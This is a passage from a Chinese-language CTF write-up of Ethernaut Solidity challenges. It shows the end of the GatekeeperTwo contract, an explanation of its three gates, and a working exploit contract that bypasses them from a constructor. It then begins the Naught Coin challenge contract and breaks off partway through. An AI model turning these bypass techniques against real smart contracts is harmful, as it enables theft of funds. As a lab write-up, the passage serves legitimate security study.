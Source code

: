         function enter(bytes8 _gateKey) public gateOne gateTwo gateThree(_gateKey) returns (bool) {
            entrant = tx.origin;
            return true;
        }
    }
    ```

和上一题一样，也是有三个要求：

- msg.sender != tx.origin
- 当前 caller 的 codesize 为 0
- gateKey 异或 sender 的 keccak256 的前 8 字节为 0-1=0xFFFFFFFFFFFFFFFF

第一个同样通过合约解决

第二个，当合约还没创建完成的时候 codesize 为 0，所以 exp 要写在 constructor 里

第三个，异或计算一下就好

???+ done "exp"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    contract Exploit {
        GatekeeperTwo challenge;
        constructor(address addr) public {
            challenge = GatekeeperTwo(addr);
            uint64 key = uint64(bytes8(keccak256(abi.encodePacked(this)))) ^ uint64(0xFFFFFFFFFFFFFFFF);
            challenge.enter(bytes8(key));
        }
    }
    ```

---

## Naught Coin

??? question "题目合约"
    ```solidity
    // SPDX-License-Identifier: MIT
    pragma solidity ^0.6.0;

    import '@openzeppelin/contracts/token/ERC20/ERC20.sol';

    contract NaughtCoin is ERC20 {

        // string public constant name = 'NaughtCoin';
        // string public constant symbol = '0x0';
        // uint public constant decimals = 18;
        uint public timeLock = now + 10 * 365 days;
        uint256 public INITIAL_SUPPLY;
        address public player;

        constructor(address _player) 
        ERC20('NaughtCoin', '0x0')
        public {
            player = _player;
            INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
            // _totalSupply = INITIAL_SUPPLY;
            // _balances[player] = INITIAL_SUPPLY;
            _mint(player, INITIAL_SUPPLY);
            emit Transfer(address(0), player, INITIAL_SUPPLY);
        }
        